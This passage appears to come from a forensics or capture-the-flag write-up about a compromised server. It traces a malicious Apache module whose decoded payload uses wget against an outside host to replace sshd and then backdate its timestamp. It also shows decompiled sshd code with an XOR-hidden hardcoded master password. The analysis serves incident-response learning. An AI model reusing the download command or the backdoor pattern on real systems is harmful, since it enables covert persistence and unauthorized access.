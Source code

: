 So the next hint is: Apache. The site configuration does not have any interesting content,
but one file stands out with an unique modification timestamp in the `mods-enabled` directory.
It's `reader.load` with the following contents:

```plain
LoadModule reader_module      /usr/lib/apache2/modules/mod_reader.so
```

This seems like a... non-standard module. As we already had success with the
`strings` command, we also throw it at this file. Again a long string stands out,
but this time it looks base64 encoded. Decoding it, we see:

```plain
wget sharefiles.xyz/image.jpeg -O /usr/sbin/sshd; touch -d `date +%Y-%m-%d -r /usr/sbin/a2enmod` /usr/sbin
```

Ok, so the `sshd` was replaced on this machine - probably with some backdoored version.

I wondered: Where would I put a backdoor? Either in the password or in
the public key authentication. In either case, I'd put some hard coded secret
in the code. The sshd codebase is rather small, and I searched for the function(s)
responsible for password authentication and found `auth_password`.
Luckily, the backdoored sshd on the machine was compiled with debug symbols, so
I searched for the `auth_password` method. Here is the relevant snippet
which Ghidra decompiled:

```c
bVar7 = 0xd6;
backdoor._28_2_ = 0xa9f4;
backdoor._24_4_ = 0xbcf0b5e3;
backdoor._16_8_ = 0xb2d6f4a0fda0b3d6;
backdoor[30] = -0x5b;
backdoor._0_4_ = 0xf0e7abd6;
backdoor._4_4_ = 0xa4b3a3f3;
backdoor._8_4_ = 0xf7bbfdc8;
backdoor._12_4_ = 0xfdb3d6e7;
pbVar4 = (byte *)backdoor;
while( true ) {
    pbVar5 = pbVar4 + 1;
    *pbVar4 = bVar7 ^ 0x96;
    if (pbVar5 == local_39) break;
    bVar7 = *pbVar5;
    pbVar4 = pbVar5;
}
iVar2 = strcmp(password,backdoor);
uVar3 = 1;
if (iVar2 != 0) {
    // continue with normal authentication ...
```
*(Fun fact: I later went through this machine with another person, and after
opening Ghidra he searched for "backdoor" right away - really good intuition
I'd say!)*

### The lazy way
